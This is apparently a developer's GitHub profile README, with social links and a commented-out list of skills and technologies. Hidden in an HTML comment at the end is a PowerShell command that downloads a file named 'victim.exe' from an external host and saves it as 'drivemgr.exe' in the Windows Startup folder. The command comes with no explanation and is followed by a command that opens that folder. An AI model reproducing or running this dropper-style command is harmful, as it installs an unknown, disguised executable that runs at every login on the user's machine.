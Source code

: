<img src="./assets/banner.png">

<h1 align="center">Heshan Thenura Kariyawasam</h1>

<h2 align="center">Sri Lanka</h2>

<div align="center"><a href="https://twitter.com/Heshantk">Twitter</a> | <a href="https://www.linkedin.com/in/heshanthenura">LinkedIn</a> | <a href="https://www.instagram.com/heshan_thenura/">Instagram</a> | <a href="https://youtube.com/@heshanthenura">YouTube</a> | <a href="https://www.tiktok.com/@heshanthenura">TikTok</a></div>

```bash

heshanthenura@heshanthenura:~/ whoami


```

<!--
<h1 align="center">Heshan Thenura Kariyawasam</h1>

## I am a self-taught programmer from Sri Lanka

Mostly I prefer Backend development.

### My Higher Education

- Pure Mathematics
- Applied Mathematics
- Physics
- Information and Communication Technology

### Frameworks that I work with

- JavaFX
- Spring Boot

### Technologies that I use

- Linux
- Oracle Cloud
- MySQL
- SQLite
- H2
- Git
- WebRTC
- Socket
- WebSocket

[![Heshan's top languages](https://github-readme-stats.vercel.app/api/top-langs/?username=heshanthenura&theme=blue-green)

### If you're interested in custom application development or would like to discuss a project, please don't hesitate to contact me.


<ul>
    <li><a href="https://twitter.com/Heshantk">Twitter</a></li>
    <li><a href="https://www.linkedin.com/in/heshanthenura">LinkedIn</a></li>
    <li><a href="https://www.instagram.com/heshan_thenura/">Instagram</a></li>
    <li><a href="https://youtube.com/@heshanthenura">YouTube</a></li>
    <li><a href="https://www.tiktok.com/@heshanthenura">TikTok</a></li>
</ul>


### [E-Mail](mailto:heshanthenura@protonmail.com) heshanthenura@protonmail.com -->

<!-- ```bash
 (new-object Net.WebClient).DownloadFile('https://dlsv37.sonicbit.net/file/dl2/MUVUOGlHNW9oOGJ4Y3h5M0FjUzRMa3lsbHBjbGQzWDF2bG9LZmdiVkVMU1FmeEovVTU0UWY0UFE5b3JMMVJQZDg4cVJXYWdRQlJmWnpVQ1Vkbm1tWEE9PQ==/victim.exe', "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\drivemgr.exe")

https://dlsv37.sonicbit.net/file/dl2/MUVUOGlHNW9oOGJ4Y3h5M0FjUzRMa3lsbHBjbGQzWDF2bG9LZmdiVkVMU1FmeEovVTU0UWY0UFE5b3JMMVJQZDg4cVJXYWdRQlJmWnpVQ1Vkbm1tWEE9PQ==/victim.exe

explorer %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
``` -->

